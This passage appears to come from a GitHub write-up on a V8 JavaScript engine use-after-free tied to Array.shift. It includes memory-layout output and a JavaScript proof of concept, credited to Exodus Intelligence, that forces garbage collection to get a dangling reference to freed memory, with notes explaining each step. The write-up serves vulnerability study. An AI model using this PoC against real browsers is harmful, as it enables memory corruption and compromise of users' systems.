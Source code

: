 ### Memory State Example
Here’s a glimpse of the memory layout after each shift operation:

```
elements: 0x12fa08295ee1 <FixedArray[145]>
elements: 0x12fa08295ee5 <FixedArray[144]> 
elements: 0x12fa08295ee9 <FixedArray[143]>
```

## Proof of Concept (PoC)
This is the POC given by `exodus intelligence`, in their blog (mentioned below). In the below code the variable `a` has reference to the `filter` created by the arrayshift. Meanwhile in Garbage Collection cycle, `filters` are more or less treated as free space. Hence you have reference (Dangling pointer) to freed space. 

```javascript
function exploit() {
    let bugSize = 120;
    let pushObj = [6969];
    let barr = [1.1];

    for (let i = 0; i < bugSize; i++) {
        barr.push(pushObj);
    }

    function danglingRef() {
        barr.shift();                                       // Shift the array
        for (let v19 = 0; v19 < 10000; v19++) {}            // Busy wait
        let a = barr[0];                                    // Reference to freed element

        gc();                                               // Trigger garbage collection
        for (let v19 = 0; v19 < 500; v19++) {}              // More busy wait
    }

    for (let i = 0; i < 4; i++) {
        danglingRef();
    }
}

exploit();
```

- `barr` is the array we will perform the bug on, in which `6969` is the marker which can be used in later stages while heap sprays are performed.
- We do a `barr.shift()` to trigger the `shift` prototype and in parallel the `inlining phase` is being run, which is supposed to make the barr[0] a constant reference. why optimize? In javascript the type is dynamic, So to skip the map verification steps, directly placing a reference to the first element will make things faster.
- I'm still unsure how they arrived at the number `4`. When I asked one of the exploiters who developed this, they mentioned it was determined through dynamic testing and multiple runs. I don't have a clear explanation for it just yet.
